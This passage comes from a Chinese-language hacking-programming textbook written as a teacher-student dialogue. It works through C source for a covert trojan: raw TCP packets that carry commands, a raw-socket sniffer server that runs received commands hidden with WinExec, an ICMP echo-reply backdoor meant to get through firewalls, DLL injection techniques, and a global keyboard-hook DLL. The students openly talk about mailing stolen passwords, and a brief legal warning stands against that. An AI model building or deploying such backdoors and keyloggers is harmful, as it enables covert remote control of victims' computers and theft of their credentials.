memcpy(szDataBuf, &PSD_Header, sizeof(PSD_HEADER));
memcpy(szDataBuf + sizeof(PSD_HEADER), &TCP_Header, sizeof(TCP_HEADER));
memcpy(szDataBuf + sizeof(PSD_HEADER) + sizeof(TCP_HEADER), &Trojan_Header, sizeof(TROJAN_HEADER));
memcpy(szDataBuf + sizeof(PSD_HEADER) + sizeof(TCP_HEADER) + sizeof(TROJAN_HEADER), pCommand, nCommandLength);

// 计算校验和，填充到校验和字段
TCP_Header.th_sum = CheckSum((unsigned short *)szDataBuf, sizeof(PSD_HEADER)
    + sizeof(TCP_HEADER) + sizeof(TROJAN_HEADER) + nCommandLength);
```

“现在各个头部的数据都构造出来了。我们按照 IP 头部、TCP 头部、木马头部、木马命令的顺序，依次拷贝到发送缓冲区中。”

```c
// 填充发送缓冲区
// 拷贝IP头部到发送区
memcpy(szDataBuf, &IP_Header, sizeof(IP_HEADER));
// 拷贝TCP头部到发送区
memcpy(szDataBuf + sizeof(IP_HEADER), &TCP_Header, sizeof(TCP_HEADER));
// 拷贝木马头部到发送区
memcpy(szDataBuf + sizeof(IP_HEADER) + sizeof(TCP_HEADER), &Trojan_Header,
    sizeof(TROJAN_HEADER));
// 最后拷贝木马命令
memcpy(szDataBuf + sizeof(IP_HEADER) + sizeof(TCP_HEADER) + sizeof(TROJAN_HEADER),
    pCommand, nCommandLength);
```

“最后指明服务端 IP 地址和端口，用 sendto 函数让操作系统发送数据包。”

```c
// 指明服务端 IP 地址和端口
addr_in.sin_family = AF_INET;
addr_in.sin_port = htons(LOCAL_PORT);
addr_in.sin_addr.S_un.S_addr = inet_addr(argv[1]);
// 发送命令
nRetCode = sendto(nSock, szDataBuf,
    sizeof(IP_HEADER) + sizeof(TCP_HEADER) + sizeof(TROJAN_HEADER)
    + nCommandLength, 0, (struct sockaddr*)&addr_in, sizeof(addr_in));
```

“这样，我们木马命令的数据包就构造完成并发送出去了。”

“在服务端，木马为了隐藏端口，采用原始套接字嗅探，接收所有的数据包。Raw Socket 的嗅探接收原理和实现方法前面已经详细地讲过。其完整程序如下。”

```c
int main(int argc, char* argv[])
{
    WSADATA WSAData;
    int nRetCode = 0;
    WSAStartup(MAKEWORD(2,2), &WSAData);
    SOCKET nSock = INVALID_SOCKET;
    // 建立原始套接字
    nSock = socket(AF_INET, SOCK_RAW, IPPROTO_RAW);
    // bind 端口，因为嗅探所有的数据包，所以端口无所谓
    addr_in.sin_family = AF_INET;
    addr_in.sin_port = INADDR_ANY;
    addr_in.sin_addr.S_un.S_addr = GetLocalIP();
    nRetCode = bind(nSock, (struct sockaddr*)&addr_in, sizeof(addr_in));
    // 设置 SIO_RCVALL，接收所有的数据包
    nRetCode = WSAIoctl(nSock, SIO_RCVALL, &dwBufferInLen, sizeof(dwBufferInLen),
        &dwBufferLen, sizeof(dwBufferLen), &dwBytesReturned, NULL, NULL);
    pBuffer = (char*)malloc(MAX_PACKET_SIZE);
    while(1)
    {
        memset(pBuffer, 0, MAX_PACKET_SIZE);
        // 接收数据到 pBuffer 中
        nRecvBytes = recv(nSock, pBuffer, MAX_PACKET_SIZE, 0);
        if (SOCKET_ERROR == nRetCode)
        {
            printf("RECV Error!%d\n", WSAGetLastError());
            goto Exit1;
        }

        // 木马长度至少为 46，如果小于这个值，一定不是我们的木马，不处理
        if (nRecvBytes < 46)
            continue;
        DecodeData(pBuffer);      // 数据解码
    }

    // 退出处理
Exit1:
    if (pBuffer != NULL)
        free(pBuffer);
    if (nSock != INVALID_SOCKET)
        closesocket(nSock);
    WSACleanup();
}
```

“木马服务端接收到数据后，进入 `DecodeData(pBuffer)` 函数判断是否是木马客户端发来的数据。根据我们木马协议的定义，需要判断两个地方，一个是 TCP 的序列号值，一个是木马头部的标识符，只有这两个地方都符合了我们的定义，才认为是木马的数据，进而执行木马命令；否则，嗅探到的是其他应用程序的数据包，我们的木马程序不用理会。”

“有了这个思路，`DecodeData` 的函数如下实现。”

```c
int DecodeData(char* pBuffer)
{
    int nRetCode = 0;
    char* pCommand = NULL;
    unsigned short usCmdLength = 0;
    PIP_HEADER pIPHeader = NULL;
    PTCP_HEADER pTCPHeader = NULL;
    PTROJAN_HEADER pTrojanHeader = NULL;
    // 转换为 IP 协议包
    pIPHeader = (PIP_HEADER)pBuffer;

    // 判断是否是 TCP 包，如果不是 TCP 包，一定不是我们的木马数据，不作处理
    if (pIPHeader->proto != IPPROTO_TCP)
        goto Exit0;

    // 如果是 TCP 包，去掉 IP 头部，转化为 TCP 协议包
    pTCPHeader = (PTCP_HEADER)(pBuffer + sizeof(IP_HEADER));

    // 验证该 TCP 包的 SEQ 值是否符合我们木马的定义，如果不符合，一定不是我们的木马数据，不作处理
    if (ntohs(pTCPHeader->th_seq) != SEQ_IDENTIFY)
        goto Exit0;

    // 如果是 TCP 包，序列号也符合，去掉 TCP 头，转化为木马协议包
    pTrojanHeader = (PTROJAN_HEADER)(pBuffer + sizeof(IP_HEADER) + sizeof(TCP_HEADER));

    // 验证该协议包的标识符是否是合法的木马包
    if (ntohs(pTrojanHeader->trojan_id) != TROJAN_ID_IDENTITY)
        goto Exit0;

    // 如果是合法的包，进行木马命令的处理
    usCmdLength = pTrojanHeader->trojan_len;    // 获得命令的长度

    // 命令长度为 0，不作处理
    if (0 == usCmdLength)
        goto Exit0;

    // 分配空间
    pCommand = (char*)malloc(usCmdLength + 1);
    memset(pCommand, 0, usCmdLength + 1);
    // 拷贝木马命令
    memcpy(pCommand, pBuffer + sizeof(IP_HEADER) + sizeof(TCP_HEADER) + sizeof(TROJAN_HEADER), usCmdLength);
    // 执行木马命令，可以改写成我们标准的木马模板代码。
    nRetCode = WinExec(pCommand, SW_HIDE);
    if (nRetCode > 31)
    {
        // WinExec Successfully!
    }

Exit0:
    return nRetCode;
}


```

## 小结

“好了，搞定。”老师拍拍手说道：“使用原始套接字嗅探的方法，可以让我们的木马没有端口，没有连接状态，拥有很好的隐蔽性。”

“是啊，那以后我们就用这种方法写吧！多好啊。”小菜们叫道。

“但是，万物都没有尽善尽美的，这种方法的缺点也很明显，不可靠，数据量大时不稳定；如果对方机器数据流量大，嗅探的效率成问题。”

“哦，看来任何方法都有其适用的范围，要具体问题具体分析啊。”小菜们说。

“是的。特别地，我们将这种 Raw Socket 嗅探的方法特例化，用 Raw Socket 实现一个基于 ICMP 协议的后门，利用这种后门，同样隐藏端口，甚至可以穿透网关，进入内网。”

## 6.3.3 ICMP后门

“什么是 ICMP 协议呢？ICMP 全称是 Internet Control Message Protocol，即互联网控制报文协议。它传递差错报文以及其他需要注意的信息，通常被 IP 层或更高层协议层（TCP 或 UDP）使用。”

“ICMP 报文是在 IP 数据报内部被传输的，其结构封装如图 6.14。”
“而 ICMP 协议的格式如图 6.15。”
“8 位类型和 8 位代码组合，可以表示不同的报文类型；检验和字段覆盖整个 ICMP 报文，和 IP 首部检验和算法相同。所有 ICMP 报文的前 4 个字节都是一样的，但是剩下的其他字节则互不相同。”

# 黑客编程入门

“类型字段可以有 15 个不同的值，以描述特定类型的 ICMP 报文。某些 ICMP 报文还使用代码字段的值来进一步描述不同的条件。

著名的工具 Ping 就是通过发送请求回显（类型 8，代码 0）和回显应答（类型 0，代码 0）来进行网络诊断的。

ICMP 木马正是得到了 Ping 程序的启发。由于 ICMP 报文是由系统内核或进程直接处理而不是通过端口，这就给木马又一个摆脱端口的绝好机会。木马将自己伪装成一个 Ping 的进程，系统就会将 ICMP_ECHOREPLY，也就是请求应答包的监听、处理权交给木马进程，一旦事先约定好 ICMP_ECHOREPLY 包出现（可以判断包大小、ICMP_SEQ 等特征），木马就会接受、分析并从报文中解码出命令和数据。

ICMP_ECHOREPLY 包还有对于防火墙和网关的穿透能力。对于防火墙来说，ICMP 报文是被列为危险的一类：从 Ping of Death 到 ICMP 风暴到 ICMP 碎片攻击，构造 ICMP 报文一直是攻击主机的最好方法之一，因此一般的防火墙都会对 ICMP 报文进行过滤；但是 ICMP_ECHOREPLY 报文却往往不会在过滤策略中出现，这是因为一旦不允许 ICMP_ECHOREPLY 报文通过，就意味着主机没有办法对外进行 Ping 的操作，这样对于用户是极其不友好的。如果设置正确，ICMP_ECHOREPLY 报文也能穿过网关，进入局域网。”

老师说道：“好了，有了前面 Raw Socket 编程的基础，ICMP 木马就比较好理解了。在客户端，主要负责填充 ICMP 包并发送。首先需要 ICMP 协议的结构定义，在前面已经讲过，这里再重复一下。”

#### ICMP 首部

```c
typedef struct _ihdr {
    BYTE  i_type;    // 8位类型
    BYTE  i_code;    // 8位代码
    USHORT i_cksum;  // 16位校验和
    USHORT i_id;     // 识别号（一般用进程号作为识别号）
    USHORT i_seq;    // 报文序列号
    ULONG timestamp; // 时间戳
} IcmpHeader;
```

“有了结构，客户端定义一个 ICMP 首部变量，然后进行字段的填充。”

```c
IcmpHeader *icmp_hdr;
char *datapart;

icmp_hdr = (IcmpHeader*)icmp_data;
icmp_hdr->i_type = ICMP_ECHOREPLY;   // 类型为 ICMP_ECHOREPLY
icmp_hdr->i_code = 0;
icmp_hdr->i_id = (USHORT)GetCurrentProcessId();  // 识别号为进程号
icmp_hdr->i_cksum = 0;   // 校验和初始化
icmp_hdr->i_seq = 0;     // 序列号初始化
datapart = icmp_data + sizeof(IcmpHeader);
// 数据端的地址为 icmp 报文地址加上 ICMP 的首部长度
memset(datapart, 'A', datasize - sizeof(IcmpHeader));
// 这里填充的数据全部为 'A'，你可以填充任何代码和数据，实际上木马和控制端之间就是通过
// 数据段传递数据的。
// 再使用 CheckSum 子程序计算 ICMP 校验和。
((IcmpHeader*)icmp_data)->i_cksum = checksum((USHORT*)icmp_data, datasize);
```

“数据填充好后，用原始套接字发送出去。可以给 Raw Socket 设置 IPPROTO_ICMP 选项，这样我们可以不填充 IP 头部，直接发送填充好的 ICMP 数据包。”

```c
SockRaw = WSASocket(
    AF_INET,      // 协议族
    SOCK_RAW,     // 协议类型，SOCK_RAW 表示是原始套接口
    IPPROTO_ICMP, // 协议，IPPROTO_ICMP 表示 ICMP 数据报
    NULL,         // WSAPROTOCOL_INFO 置空
    0,            // 保留字，永远置为 0。
    WSA_FLAG_OVERLAPPED  // 标志位
);

sendto(sockRaw, icmp_data, datasize, 0, (struct sockaddr*)&dest, sizeof(dest));
```

“而在木马服务端，用 Raw Socket 的 IPPROTO_ICMP 选项监听。”

```c
sockRaw = WSASocket(
    AF_INET, SOCK_RAW, IPPROTO_ICMP, NULL, 0, WSA_FLAG_OVERLAPPED);
```

“接收数据：用 recvfrom 函数接收 ICMP ECHOREPLY 报文。”

```c
bread = recvfrom(sockRaw, recvbuf, MAX_PACKET, 0, (struct sockaddr*)&from, &fromlen);
```

“接收到数据后，用 decoder 函数将接收来的报文解码为数据和命令：”

```c
void decoder(char *buf, int bytes, struct sockaddr_in *from)
{
    IpHeader *iphdr;
    IcmpHeader *icmphdr;
    unsigned short iphdrlen;
    iphdr = (IpHeader *)buf;    // IP 首部的地址就等于 buf 的地址
    iphdrlen = iphdr->h_len * 4;    // 因为 h_len 是 32 位 word，要转换成 bytes 必须 *4
    icmphdr = (IcmpHeader*)(buf + iphdrlen);    // ICMP 首部的地址等于 IP 首部长加 buf
    printf("%d bytes from %s", bytes, inet_ntoa(from->sin_addr));
    // 取出源地址
    printf(" icmp_id=%d. ", icmphdr->i_id);    // 取出进程号
    printf(" icmp_seq=%d. ", icmphdr->i_seq);  // 取出序列号
    printf(" icmp_type=%d", icmphdr->i_type);  // 取出类型
    printf(" icmp_code=%d", icmphdr->i_code);  // 取出代码
    // 取出数据段
}


```

老师说道：“我们将隐藏端口的各种实现加入到 DLL 木马中，那么就初步实现了无进程、无端口的完美木马。”

小菜说道：“编写 ICMP 木马时，可以用原始套接字的 IPPROTO_ICMP 选项，我们就不用一个个地填充 IP 协议头和 TCP 协议头了，真简单啊。”

老师说道：“是的，而且对于 ICMP 木马，除非使用嗅探器，否则从网络上是很难发现木马的行踪的。”

“当然，如果防火墙完全过滤了 ICMP 协议，那 ICMP 木马就英雄无用武之地了，不过一旦禁止了 ICMP_ECHOREPLY 报文，就不能使用 Ping 这个工具了；如果过滤了所有的 ICMP 报文，就收不到任何错误报文，那么当使用 IE 访问一个并不存在的网站时，往往要花数倍的时间才能知道结果。网络不可达、主机不可达、端口不可达报文主机一个都收不到，而且基于 ICMP 协议的 tracert 工具也会失效。这是防火墙一般都不会禁止 ICMP_ECHOREPLY 报文的原因，这也是方便和安全之间的矛盾统一了吧。”

小菜们问道：“那我们的木马可以实现无端口、无进程了，是不是达到顶峰了呢？”

老师摇摇头说：“这些隐藏端口的方法，都是利用 socket 的属性，在比较上层的设置和利用。其实我们还可以继续往系统底层走，巧妙地实现隐藏端口。至于怎么实现的，大家下去先好好地复习这次课的内容，下节课我们再探讨吧。”

## 小结

# 第七章 高手的 HOOK 编程

“真是激动人心啊！我们学校正在举办 ACM/ICPC（国际大学生程序设计竞赛）亚洲区预赛，这预赛，据说是全国高校的高段玩家都会出场，还有神秘人物现身。出线机会很多，仪式也很讲究，来参赛的人也很多，是一个见识牛人的好机会。”老师说道，“好了，所以我们抓紧时间上课吧。在前面实现端口隐藏时，我们都是利用对 socket 本身的设置，比如设置 socket 的属性为 SOL_SOCKET，从而复用端口；使用 RAW socket 实现嗅探；使用 RAW socket 编写 ICMP 木马等等。”

“但这些方法都不太稳定和通用。比如端口复用的方法，服务程序只要设置 socket 为 SO_EXCLUSIVEADDRUSE 属性就可以防范了；嗅探就更不稳定了，如果是有大量流量的服务器，要对所有的包进行分析，是非常占资源的。”

小菜们点点头：“是啊，需要根据不同的情况，采用相应的方法，挺麻烦的。”

老师提高音量：“但我们换个思路。大家想想，任何正常的服务，比如 FTP、IIS 等，它们进行网络通信时，最后一定会调用 recv、send 这些 API 函数。如果我们能修改这些 API 函数流程，让它们在执行时能进入我们的代码，先完成判断木马命令、执行木马命令等功能，再做系统本来做的事情。这样就可以稳妥地实现隐藏端口功能了。”

“想想看，真的是啊。”小菜们说道，“直接修改 Windows 自带函数的流程，如同杨子荣上威虎山，天王盖地虎，宝塔镇河妖。直接打入敌人内部。稳妥又安全。但怎么让函数流程改变，从而进入到我们的代码呢？”

老师回答道：“一般地，这种改变系统流程的技术，统称为 HOOK 技术。特别地，改变 API 函数执行流程的技术，称为 API HOOK 技术。”

## 7.1 HOOK 简介

“HOOK 的本意是钩子，而钩子的本意是从系统正常的消息作业中把要监听的消息钩出来，先进入自己的代码中操作一番，之后再放回到正常的作业；或者干脆结束该消息，不让系统其他进程得到和处理该消息。HOOK 的示意图如图 7.1。”
“如果作更全面、更科学，也是更拗口的解释，HOOK 是 Windows 消息处理机制的一个平台，应用程序可以在上面设置子程序以监视指定窗口的某种消息，当消息到达后，能在目标窗口处理函数之前用子程序处理它。”

“钩子机制的出现，允许应用程序截获处理 Windows 消息或特定事件。实际上，钩子是一个处理消息的程序段，通过系统调用，把它挂入系统。每当特定的消息发出，在没有到达目的窗口前，钩子程序就先捕获该消息，就是说钩子函数先得到控制权。这时钩子函数就可以做自己想做的事情，也可以不作处理而继续传递该消息，还可以强制结束消息的传递。”

“哎哟，哎哟，这更详细的解释如同一群苍蝇在我脑子里‘嗡嗡嗡嗡，嗡嗡嗡嗡’地叫个不停，飞来飞去，飞来飞去……让人真受不了了。”小菜们抱着头叫道。

老师大汗：“那我们结合程序的实现，更形象地解释吧。”

## 7.2 HOOK 例子——截获键盘输入

“我们写个比较有用的程序——截获用户的键盘输入。”老师说道，“无论什么时候，我们的程序都将用户输入的东西记录下来。”

“哎，任何时候？也可以记录密码吗？”小菜们眼睛都亮了。

“当然可以啊。”

“啊！太好了！SMTP 又有用武之地了，传送密码到邮箱！Gogogo。”

“想要有效地记录密码，仅仅靠截获键盘还不够，还需要结合其他的技术，比如，判断当前输入的地方是密码框，判断是什么程序的密码等。但 Warning，大家不要做这种事情，因为这是违法国家法律的。”

“所以在课堂上，我们只讨论 HOOK 技术本身。”老师接着说道，“要完成键盘输入的 HOOK，程序需要两个功能，一个是知道用户键盘输入字符后的功能处理；另一个，也是更重要的，进入系统的任何进程，截获用户的键盘输入。”

### 7.2.1 进入其他进程方法小结

“我们曾说过，Windows 系统中，每个进程都有自己独立的私有内存空间，理论上，别的进程是不允许对这个私人领地进行操作的。这样，一个应用程序就无法进入另一个进程的地址空间，从而不会破坏另一个进程的运行，使得系统更加稳定。”

“但不好的一面是，我们对感兴趣的进程进行操作也变得复杂起来。好在我们有一些方法，可以将自己的代码嵌入在正在运行的进程中，从而进入并操作其他进程的私有地址。”

“DLL 注入技术就是解决该问题的好办法。我们在 DLL 木马的编写中，已经介绍了一种 DLL 注入的方法——利用远程线程注入。”

“远程线程注入主要是利用 CreateRemoteThread 这个函数来完成的。我们再复习一下注入的流程。”

- 1. 取得远程进程的进程 ID；
- 2. 在远程进程空间里分配一段内存用来存放要注入的 DLL 完整路径；
- 3. 将要注入的 DLL 的路径写到刚才分配的远程进程空间；
- 4. 从 Kernel32.dll 中取得 LoadLibrary 的地址；
- 5. 调用 CreateRemoteThread 函数，以从 Kernel32.dll 中取得的 LoadLibrary 函数的地址为线程函数的地址，以我们要注入的 DLL 文件名为参数，创建远程线程。

“创建了远程线程，就在别的进程中执行了我们 DLL 中的代码了。清楚了流程，这种方法是很容易实现的。具体的代码请大家翻看 DLL 木马编写那节课的内容，这里就不再重复了。”

“DLL 注入的第二种方法——利用特洛伊 DLL 进行注入。这种方法的原理是自己写一个与原有进程调用 DLL 有完全相同接口函数的 DLL，再用我们的 DLL 替换原有的 DLL。当有进程调用 DLL 函数的时候，就是执行我们自己函数的时候。”

“我们可以把感兴趣的函数替换成自己的函数，而对不感兴趣的函数，则直接调用原有 DLL 中的函数。比如我们写一个 DLL 文件，实现 Ws2_32.dll 中的所有 API 函数，然后命名为 Ws2_32.dll，替换原来的 DLL。这样任何调用 Ws2_32.dll 的进程，就会执行我们的代码了。”

“但这里面有个前提，就是你在编写 DLL 时必须知道原有 DLL 中的函数都有哪些，以免导致其他进程调用 DLL 时找不到相应的 API 函数，而且替换系统 DLL 文件时更要小心，因为系统不一样，DLL 版本不同，函数的接口可能也不同。”

“第三种 DLL 注入的方法——利用注册表。如果我们准备拦截的进程连接了 User32.dll，也就是使用了 User32 中的 API（一般图形界面的应用程序都符合这个条件），那么就可以简单把钩子 DLL 的名字作为值添加在下面注册表的键下：HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Windows\AppInit_DLLs，键值的形式可以为单个 DLL 的文件名，或者是一组 DLL 的文件名，相邻的名称之间用逗号或空格间隔。”

“该键值标明的所有 DLL 将在符合条件的应用程序启动的时候装载。这是一个操作系统内建的机制，相对其他方式来说危险性较小，但它有一些比较明显的缺点：为了激活或停止钩子的注入，必须重新启动 Windows。这个就似乎太不方便了；而且不能用此方法向没有使用 User32 的应用程序注入 DLL。”

“而第四种 DLL 注入的方法，就是使用 HOOK 方法。”

“HOOK 其实是为一个线程或整个系统安装一个消息钩子。调用挂接的回调函数时首先会调用位于函数链首的函数，我们只要将自己的回调函数置于链首，该回调函数就会首先被调用。为了达到该目的，我们使用 SetWindowsHookEx 函数，就可以将自己的钩子函数置于 Windows 消息回调函数的链首，从而消息到来时，我们的钩子函数被首先调用。SetWindowsHookEx 函数如下。”

#### 原型

```c
HHOOK SetWindowsHookEx(
    int idHook,
    HOOKPROC lpfn,
    HINSTANCE hMod,
    DWORD dwThreadId
);
```

#### 参数

- 第一个参数 idHook 表示钩子的类型。该值可以取如下类型。
- WH_CALLWNDPROC：在系统发给目标窗口消息之前，截获消息。
- WH_CALLWNDPROCRET：在目的窗口处理完消息之后，截获消息。
- WH_CBT：截获 CBT 事件，CBT 事件包括激活、建立、销毁、最小化、最大化、移动、改变尺寸等窗口事件，完成系统指令，来自系统消息队列中的移动鼠标、键盘事件；设置输入焦点事件；同步系统消息队列事件等。
- WH_DEBUG：表示调试其他 HOOK 进程。
- WH_FOREGROUNDIDLE：该参数加载的 HOOK 在前台程序刚将变为空闲时被调用。这个参数用在执行低权限事件的地方。
- WH_GETMESSAGE：监视发送到消息队列的消息。
- WH_JOURNALPLAYBACK：回放 WH_JOURNALRECORD Hook 记录下来的连续的鼠标和键盘事件。
- WH_JOURNALRECORD：监视发送到消息队列的输入型消息。一般情况下，使用这个 Hook 记录连续的鼠标和键盘事件，然后通过使用 WH_JOURNALPLAYBACK Hook 来回放。
- WH_KEYBOARD：截获键盘输入消息。比如 WM_KEYDOWN 和 WM_KEYUP，就是键盘按下和弹起消息。
- WH_KEYBOARD_LL：监视线程消息队列中的键盘输入消息。
- WH_MOUSE：截获鼠标消息。
- WH_MOUSE_LL：监视输入到消息队列中的鼠标消息。
- WH_MSGFILTER：监视菜单、滚动条、消息框、对话框的消息，并可以发现用户使用 ALT+TAB 或者 ALT+ESC 组合键切换窗口。
- WH_SHELL：监视应用程序激活、顶层窗口建立或者销毁。
- 第二个参数 lpfn 为钩子函数的地址。当钩子钩到指定的消息后便调用这个函数执行；
- 第三个参数 hMod 为钩子函数所在模块的句柄。如果是线程钩子，该参数为 NULL；对于系统钩子，该参数为钩子函数所在的 DLL 句柄。
- 第四个参数 dwThreadId 指定钩子所监视的线程的线程 ID 号。如果是全局钩子，该参数为 NULL。

#### 说明

如果 SetWindowsHookEx 执行成功，返回所安装的钩子的句柄。如果失败，返回 NULL。对于线程钩子，一般是 HOOK 当前线程的派生线程，而对于系统全局钩子，要写成独立的动态链接库，从而载入到所有进程的地址空间中，第三个参数 hMod 就要指明 DLL 的句柄。

“在我们的函数处理完后，为了让原来的 Windows 消息回调函数链能正常处理该消息，需要使用 **CallNextHookEx()** 函数使其并入处理链的下一个函数，该函数为：”

原型：

```c
LRESULT CallNextHookEx(
    HHOOK hhk,
    int nCode,
    WPARAM wParam,
    LPARAM lParam
);
```

参数：

第一个参数 **hhk** 为 **SetWindowsHookEx** 函数返回的句柄。后面三个参数都为参数的简单传递。

“最后，当我们不再使用钩子时，需要将其卸载。调用 **UnhookWindowsHookEx** 函数进行卸载。”

原型：

```c
BOOL UnhookWindowsHookEx(
    HHOOK hhk
);


```

参数：

参数 **hhk** 为 **SetWindowsHookEx** 返回的句柄。

“有了这几个函数，我们就可以实现截获键盘输入的 HOOK 程序了。”

### 7.2.2 HOOK 键盘输入

“因为我们想截获任何进程的键盘输入，所以需要使用全局钩子。而全局钩子要把代码实现放在一个 DLL 文件中。”

“那么首先建立 DLL 工程。在 VC 下点击菜单的文件→新建，然后选择工程的 Win32 Dynamic-Link Library，如图 7.2。”
图 7.2

“然后在向导中，选择第二项简单 DLL 工程，点击完成按钮，如图 7.3。”
图 7.3

“生成基本代码后，我们在 DLL 中添加要完成的两件事情，安装系统钩子 InstallHook() 和挂钩消息后的处理 HookProc()。”

```c
// 安装钩子
BOOL InstallHook();

// 挂钩处理函数
LRESULT CALLBACK HookProc(int nCode, WPARAM wParam, LPARAM lParam);
```

“在安装钩子函数 InstallHook() 中，只需完成一件事情，就是使用 SetWindowsHookEx 函数进行钩子的安装。SetWindowsHookEx 的第一个参数指明钩子的类型，因为我们只想截获键盘消息，所以设置为 WH_KEYBOARD；第二个参数为挂钩消息后的处理函数，就是我们即将实现的 HookProc 函数，当钩子钩到任何消息后便调用这个函数，即不管系统的哪个窗口有键盘输入，马上会引起 HookProc 的动作；第三个参数为钩子所在 DLL 模块的句柄 hModule，可以在 DllMain 载入时，通过 DllMain 的参数 HANDLE hModule1 获得；第四个参数因为安装的是全局钩子，所以设为 0。程序如下。”

```c
static HHOOK hHook = NULL;
HINSTANCE hModule;    // 钩子函数所在模块的句柄
BOOL InstallHook()
{
    hHook = SetWindowsHookEx(WH_KEYBOARD,   // 截取键盘消息
        (HOOKPROC)HookProc,                 // 消息处理函数
        hModule,                            // 钩子 DLL 所在模块
        0);                                 // 0 为全局钩子

    return TRUE;
}

// 在 DllMain 入口处，获得 DLL 的句柄如下：
// DLL 的入口
BOOL APIENTRY DllMain(HANDLE hModule1,
                      DWORD ul_reason_for_call,
                      LPVOID lpReserved
                      )
{
    hModule = (HINSTANCE)hModule1;
    return TRUE;
}
```

“安装好钩子后，用户每次按下键盘都会被我们截获，进入 HookProc 函数中进行处理。我们就可以在函数内定义当键盘上的键按下时程序要做什么了。而 HookProc 函数需要写成如下样子。”

```c
LRESULT CALLBACK HookProc(
    int nCode,
    WPARAM wParam,
    LPARAM lParam
);
```

“第一个参数 nCode 帮助 HOOK 程序判断如何处理该 HOOK 消息。如果 nCode 的取值是 HC_ACTION，那就说明 wParam 和 lParam 中保存的是用户的按键信息。第二个参数 wParam 为按下键盘的编码值。第三个参数 lParam 为其他的一些信息。”

“这样在 HookProc 函数里，我们先判断 nCode 是否是 HC_ACTION，如果是，再判断 wParam 参数里存的键盘值是什么，就可以将用户按下的键记录并保存，这里只是为了测试，弹出对话框，将用户按下的键显示出来。最后，要调用 **CallNextHookEx(hHook, nCode, wParam, lParam)**，使消息能进入系统处理链中的下一个函数，而带的参数都不变。”

```c
LRESULT CALLBACK HookProc(int nCode, WPARAM wParam, LPARAM lParam)
{
    if(((DWORD)lParam & 0x40000000) && (HC_ACTION == nCode))
    {
        switch(wParam)    // 键盘按键标识
        {
            // 0~9
            case '1': MessageBox(NULL, "1", "HOOK", MB_OK); break;
            case '2': MessageBox(NULL, "2", "HOOK", MB_OK); break;
            case '3': MessageBox(NULL, "3", "HOOK", MB_OK); break;
            case '4': MessageBox(NULL, "4", "HOOK", MB_OK); break;

            // A-Z
            case 'A':
                MessageBox(NULL, "A", "HOOK", MB_OK); break;
            case 'B':
                MessageBox(NULL, "B", "HOOK", MB_OK); break;
            case 'C':
                MessageBox(NULL, "C", "HOOK", MB_OK); break;
        }
    }

    // 我们将消息处理完后，要调用 CallNextHookEx 交给处理函数链中的下一个函数
    LRESULT ret = CallNextHookEx(hHook, nCode, wParam, lParam);
    return ret;
}
```

“为了将 InstallHook 函数和 HookProc 函数作为 DLL 的输出函数，我们在工程中新加入 EXPORT.DEF 文件，然后输入如下内容。”

```text
LIBRARY HOOKDLL
EXPORTS
    InstallHook @1
    HookProc @2
```

> “这样得到完整程序如下：”

```c
#include "stdafx.h"
#include <Windows.h>
static HHOOK hHook = NULL;
HINSTANCE hModule;  // 钩子函数所在模块的句柄

BOOL APIENTRY DllMain(HANDLE hModule1,
                      DWORD ul_reason_for_call,
                      LPVOID lpReserved
                     )
{
    hModule = (HINSTANCE)hModule1;
    return TRUE;
}

LRESULT CALLBACK HookProc(int nCode, WPARAM wParam, LPARAM lParam)
{
    if(((DWORD)lParam & 0x40000000) && (HC_ACTION == nCode))
    {
        switch(wParam)  // 键盘按键标识
        {
            // 0~9
            case '1': MessageBox(NULL, "1", "HOOK", MB_OK); break;
            case '2': MessageBox(NULL, "2", "HOOK", MB_OK); break;
            case '3': MessageBox(NULL, "3", "HOOK", MB_OK); break;
            case '4': MessageBox(NULL, "4", "HOOK", MB_OK); break;
            case '5': MessageBox(NULL, "5", "HOOK", MB_OK); break;
            case '6': MessageBox(NULL, "6", "HOOK", MB_OK); break;
            case '7': MessageBox(NULL, "7", "HOOK", MB_OK); break;
            case '8': MessageBox(NULL, "8", "HOOK", MB_OK); break;
            case '9': MessageBox(NULL, "9", "HOOK", MB_OK); break;
            case '0': MessageBox(NULL, "0", "HOOK", MB_OK); break;

            // A-Z
            case 'A':
                MessageBox(NULL, "A", "HOOK", MB_OK); break;
            case 'B':
                MessageBox(NULL, "B", "HOOK", MB_OK); break;
            case 'C':
                MessageBox(NULL, "C", "HOOK", MB_OK); break;
            case 'D':
                MessageBox(NULL, "D", "HOOK", MB_OK); break;
            case 'E':
                MessageBox(NULL, "E", "HOOK", MB_OK); break;
            case 'F':
                MessageBox(NULL, "F", "HOOK", MB_OK); break;
            case 'G':
                MessageBox(NULL, "G", "HOOK", MB_OK); break;
            case 'H':
                MessageBox(NULL, "H", "HOOK", MB_OK); break;
            case 'I':
                MessageBox(NULL, "I", "HOOK", MB_OK); break;
            case 'J':
                MessageBox(NULL, "J", "HOOK", MB_OK); break;
            case 'K':
                MessageBox(NULL, "K", "HOOK", MB_OK); break;
            case 'L':
                MessageBox(NULL, "L", "HOOK", MB_OK); break;
            case 'M':
                MessageBox(NULL, "M", "HOOK", MB_OK); break;
            case 'N':
                MessageBox(NULL, "N", "HOOK", MB_OK); break;
            case 'O':
                MessageBox(NULL, "O", "HOOK", MB_OK); break;
            case 'P':
                MessageBox(NULL, "P", "HOOK", MB_OK); break;
            case 'Q':
                MessageBox(NULL, "Q", "HOOK", MB_OK); break;
            case 'R':
                MessageBox(NULL, "R", "HOOK", MB_OK); break;
            case 'S':
                MessageBox(NULL, "S", "HOOK", MB_OK); break;
            case 'T':
                MessageBox(NULL, "T", "HOOK", MB_OK); break;
            case 'U':
                MessageBox(NULL, "U", "HOOK", MB_OK); break;
            case 'V':
                MessageBox(NULL, "V", "HOOK", MB_OK); break;
            case 'W':
                MessageBox(NULL, "W", "HOOK", MB_OK); break;
            case 'X':
                MessageBox(NULL, "X", "HOOK", MB_OK); break;
            case 'Y':
                MessageBox(NULL, "Y", "HOOK", MB_OK); break;
            case 'Z':
                MessageBox(NULL, "Z", "HOOK", MB_OK); break;
        }
    }

    LRESULT ret = CallNextHookEx(hHook, nCode, wParam, lParam);
    return ret;
}

BOOL InstallHook()
{
    hHook = SetWindowsHookEx(WH_KEYBOARD, (HOOKPROC)HookProc, hModule, 0);
    return TRUE;
}


```

“编写完毕，我们在 VC 下按 F7，链接生成 DLL 成功。我们的钩子注入 DLL 就算打造完毕了。”

“有了 DLL 后，我们写一个简单的调用程序 CallFunction，调用 DLL 里面的 InstallHook 函数实现全局钩子。”

